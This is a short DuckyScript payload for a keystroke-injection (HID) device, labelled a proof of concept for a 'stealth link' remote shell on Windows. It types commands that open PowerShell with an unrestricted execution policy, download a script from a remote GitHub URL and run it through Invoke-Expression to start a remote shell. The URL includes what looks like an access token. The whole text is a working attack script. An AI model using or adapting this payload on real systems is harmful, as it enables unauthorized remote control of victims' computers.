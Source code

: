 REM       HIDX_Stealth_Link_Remote_Access_PoC_IEX
REM       Version 1.0
REM       OS: Windows
REM       Requirements: Firmware Version 3.0 minimum, Universal Python Listener, Activated HIDX

REM       HID based remote shell, executed via powershell.

REM Define the URL where you hosted your PoC
DEFINE #URL (https://raw.githubusercontent.com/gunz0blazin/OMG-Scripts/refs/heads/main/REM%20HIDX_Stealth_Link_Remote_Access_PoC_.md?token=GHSAT0AAAAAAC5YCZG2TFRKYJ5SUWGI5EGMZ4ROURA)

REM Define Keymap below
DUCKY_LANG us
DELAY 2000
GUI r
DELAY 500
STRINGLN powershell -executionpolicy unrestricted
DELAY 1000
REM Calling HIDX poc via Invoke-Webrequest and execute it via Invoke-Expression
STRINGLN Invoke-WebRequest -UseBasicParsing -Uri "#URL" | iex;HIDXShell
